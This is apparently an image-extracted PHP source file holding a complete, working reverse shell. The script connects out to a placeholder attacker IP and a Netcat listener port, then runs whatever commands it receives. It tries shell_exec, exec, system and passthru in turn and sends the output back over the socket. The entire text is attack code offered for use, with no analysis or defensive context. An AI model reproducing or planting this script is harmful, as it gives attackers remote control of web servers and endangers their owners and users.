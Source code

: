 <?php
set_time_limit(0);
$ip = "YOUR_IP";  // Change this to your attack machine's IP
$port = 1234;     // Change this to your Netcat listener port

$socket = fsockopen($ip, $port);
if (!$socket) {
    die("Connection failed.");
}

fwrite($socket, "Connected to Reverse Shell\n");

function execute_command($cmd) {
    $output = "";
    if (function_exists("shell_exec")) {
        $output = shell_exec($cmd . " 2>&1");
    } elseif (function_exists("exec")) {
        exec($cmd . " 2>&1", $out);
        $output = implode("\n", $out);
    } elseif (function_exists("system")) {
        ob_start();
        system($cmd . " 2>&1");
        $output = ob_get_clean();
    } elseif (function_exists("passthru")) {
        ob_start();
        passthru($cmd . " 2>&1");
        $output = ob_get_clean();
    } else {
        $output = "No function available to execute commands.";
    }
    return $output;
}

while (true) {
    fwrite($socket, "shell> ");
    $cmd = trim(fgets($socket, 2048));
    if ($cmd === "exit") {
        break;
    }
    fwrite($socket, execute_command($cmd));
}

fclose($socket);
?>
